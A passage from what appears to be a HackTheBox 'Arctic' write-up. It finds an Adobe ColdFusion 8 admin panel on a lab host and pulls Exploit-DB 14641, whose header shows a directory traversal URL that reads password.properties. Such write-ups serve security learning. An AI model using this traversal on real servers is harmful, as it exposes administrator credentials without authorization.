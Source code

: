 ![[Arctic-02.png]]

Seems like a HTTP server, let's access it by browser.

```bash
firefox http://10.10.10.11:8500
```

![[Arctic-03.png]]

And we will find a Index of folder. Please note when we click the url of this page, it will take more than 30 seconds to connect it successfully.

```bash
http://10.10.10.11:8500/CFIDE/
```

![[Arctic-04.png]]

And then try every folder until we found this:

```bash
# CFIDE Admin page
http://10.10.10.11:8500/CFIDE/administrator/
```

![[Arctic-05.png]]

Excellent! we will find a `Adobe ColdFusion 8` administrator panel. We already know this vulns in OSCP labs([[Write up 10.11.1.10;80 mike Adobe ColdFusion]]) 

# Exploitation
##  Directory Traversal
```bash
# we search the exploit of coldfusion
searchsploit ColdFusion
searchsploit -x 14641
searchsploit -m 14641
cat 14641.py
```

![[Arctic-06.png]]

```txt
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Arctic]
└─$ cat 14641.py  
# Working GET request courtesy of carnal0wnage:
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
#
# LLsecurity added another admin page filename: "/CFIDE/administrator/enter.cfm"
...                            
```
